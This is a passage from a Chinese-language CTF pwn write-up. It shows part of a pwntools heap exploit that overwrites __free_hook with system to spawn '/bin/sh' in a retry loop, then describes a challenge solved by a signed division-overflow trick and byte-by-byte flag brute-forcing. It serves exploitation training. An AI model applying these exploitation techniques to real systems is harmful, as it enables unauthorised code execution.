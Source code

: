 ```python
	add(0x77,'') # 26-7
	delete(26-7)
	delete(23-7)
	delete(24-7)
	add(0xb17, b'a'*0x4d0+p64(0)+p64(0x81)+p64(free_hook)) # 23-7
	
	add(0x77,'/bin/sh') # 24-7
	
	add(0x77,p64(system)) # 26-7
	
	delete(24-7)
  
	ia()

a = 0
while True:
	try:
		a += 1
		print(a)
		pwn()
	except:
		pass	

```



### no_output

需要产生除0错误进入溢出函数，学长随便试了一下用最小负数除以负一就过了，后来找了一下资料

> [关于C ++：导致除法溢出错误(x86)](https://www.codenong.com/3892379/)
>
> ```c
> int16_t a = -32768; 
> int16_t b = -1; 
> int16_t c = a / b;
> ```
>
> 在这种情况下，由于带符号整数的二进制补码表示形式，因此无法在带符号的16位整数中表示正32768，因此除法运算会溢出，从而导致-32768的错误值。

程序没有输出函数，无法泄露地址，最后or flag之后，再通过文件里存在的比较函数逐字节爆破flag

写了个比较菜的手动爆破脚本，一开始还傻傻的爆完了`real_flag.txt`文件里面的内容。。。

```python
#!/usr/bin/python

from pwn import *
import sys

context.arch='amd64'

local=1
binary_name='test'
e=ELF("./"+binary_name)

def z(a=''):
    if local:
        gdb.attach(p,a)
        if a=='':
            raw_input
    else:
        pass
ru=lambda x:p.recvuntil(x)
sl=lambda x:p.sendline(x)
```